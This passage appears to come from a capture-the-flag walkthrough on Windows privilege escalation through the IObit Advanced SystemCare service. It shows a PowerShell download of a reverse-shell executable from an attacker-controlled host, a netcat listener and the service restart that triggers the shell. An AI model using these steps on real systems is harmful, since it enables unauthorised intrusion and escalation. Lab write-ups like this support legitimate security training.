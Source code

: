 <br />

Transfer the reverse shell to the target via the `python` server we used to connect to this machine earlier if it is still running in the background, otherwise go ahead an set up a temporary one again.

```
C:\Program Files (x86)\IObit\Advanced SystemCare>powershell -c wget "http://LOCAL_IP:80/ASCService.exe" -outfile "ASCService.exe"
powershell -c wget "http://LOCAL_IP:80/ASCService.exe" -outfile "ASCService.exe"

C:\Program Files (x86)\IObit\Advanced SystemCare>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2588
        FLAGS              :
```

<br />

The next step is to ensure we set up a `netcat` listening to the port number specified on the reverse shell.

```
nc -lvnp LOCAL_PORT
```

<br />

Now start the service to establish a connection with our target machine.

```
C:\Program Files (x86)\IObit\Advanced SystemCare>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2588
        FLAGS              :
```

<br />
